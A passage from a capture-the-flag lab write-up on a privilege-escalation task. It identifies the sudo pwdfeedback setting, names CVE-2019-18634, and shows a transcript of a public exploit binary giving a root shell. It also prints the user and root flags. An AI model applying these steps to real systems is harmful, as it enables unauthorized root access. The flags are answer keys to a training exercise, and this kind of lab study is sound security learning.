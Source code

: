 `thm{56911bd7ba1371a3221478aa5c094d68}`

## Task 5 Escalate

**Enumeration of privileges**

Now that you have an SSH session, you can grab the user flag. But that shouldn't be enough for you, you need root.
A good first step for privilege escalation is seeing if you can run sudo. You have the password for the current user, so you can run the command:

`sudo -l`

This command tells you what commands you can run as the superuser with sudo. Unfortunately, the current user cannot run any commands as root. You may have noticed, however, that when you enter your password you see asterisks. This is not default behaviour. There was a recent CVE released that affects this configuration. The setting is called pwdfeedback.

```
james@hackernote:~$ sudo -l
[sudo] password for james: **********
```

What is the CVE number for the exploit?

`CVE-2019-18634`

Find the exploit from https://github.com/saleemrashid/ and download the files.

`No answer needed`

Compile the exploit from Kali linux.

`No answer needed`

SCP the exploit binary to the box.

`No answer needed`

Run the exploit, get root.

```
james@hackernote:~$ ls -la
total 928
drwxr-xr-x 4 james james   4096 Nov 14 21:21 .
drwxr-xr-x 4 root  root    4096 Feb  8  2020 ..
lrwxrwxrwx 1 james james      9 Feb 10  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james    220 Feb  8  2020 .bash_logout
-rw-r--r-- 1 james james   3771 Feb  8  2020 .bashrc
drwx------ 2 james james   4096 Feb  8  2020 .cache
-rwxr-xr-x 1 james james 916872 Nov 14 21:21 exploit
drwx------ 3 james james   4096 Feb  8  2020 .gnupg
-rw-r--r-- 1 james james    807 Feb  8  2020 .profile
-rw------- 1 james james     38 Feb  8  2020 user.txt
james@hackernote:~$ ./exploit 
[sudo] password for james: 
Sorry, try again.
# id
uid=0(root) gid=0(root) groups=0(root),1001(james)
# cat /root/root.txt
thm{af55ada6c2445446eb0606b5a2d3a4d2}
```
